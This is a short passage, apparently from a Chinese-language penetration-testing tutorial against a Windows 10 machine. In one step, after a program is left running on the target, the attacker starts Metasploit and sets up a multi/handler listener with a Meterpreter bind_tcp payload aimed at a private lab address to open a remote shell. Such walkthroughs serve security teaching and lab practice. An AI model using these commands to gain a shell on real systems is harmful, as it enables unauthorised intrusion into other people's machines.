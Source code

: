 <img src="_media/win10/12.png" />

3.直到稳定运行程序后，目标机器暂无异状，在攻击机上开启新的终端会话，并启动Metasploit Framework，进行模块设置相关监听参数：

``` 
msfconsole
use exploit/multi/handler 
set payload windows/x64/meterpreter/bind_tcp
set lport 1234
set rhost 192.168.255.135
exploit
```
